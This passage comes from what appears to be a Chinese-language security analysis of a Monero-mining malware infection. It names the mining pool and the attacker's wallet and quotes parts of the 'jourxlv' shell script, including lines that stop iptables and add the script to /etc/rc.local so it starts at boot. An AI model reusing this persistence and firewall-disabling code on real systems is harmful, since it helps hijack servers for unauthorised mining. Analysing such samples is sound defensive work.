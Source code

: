 ```
            "variant": 1

        `}`

    ],

    "print-time": 60,

    "retries": 5,

    "retry-pause": 5,

    "safe": false,

    "threads": null,

    "user-agent": null,

    "watch": false

`}`
```

这是一个门罗币挖矿的配置信息。

矿池为:mine.ppxxmr.com:3333

钱包地址：471Bu7QT79ufDEqDSoKnV3V3aycs5oohTgW5ZTuamAifPBM4M91my5gX9cpp9jGDgcCAuRTtwVKD6hsDAsY7AU19HWjrsbJ

通过我们的数据大脑，还能知道，这个矿池与很多恶意样本都有过通信

[![](https://p0.ssl.qhimg.com/t0121caee9c537a4813.jpg)](https://p0.ssl.qhimg.com/t0121caee9c537a4813.jpg)

再来看一下jourxlv这个shell脚本。

注释中提到了sysxlj，可能和作者有一定联系。

```
#!/bin/bash

#Welcome like-minded friends to come to exchange.

#We are a group of people who have a dream.

#                by:sysxlj

#                2016-03-10
```

首先关闭了iptables，并写入rc.loacl实现开机启动,并将sysxlj和本身备份到了/usr/bin下更改了名字。

```
service iptables stop &gt; /dev/null 2&gt;&amp;1 &amp;

host_dir=`pwd`

if [ "sh $host_dir/jourxlv &amp;" = "$(cat /etc/rc.local | grep $host_dir/jourxlv | grep -v grep)" ]; then

    echo ""

else

    echo "sh $host_dir/jourxlv &amp;" &gt;&gt; /etc/rc.local

fi
```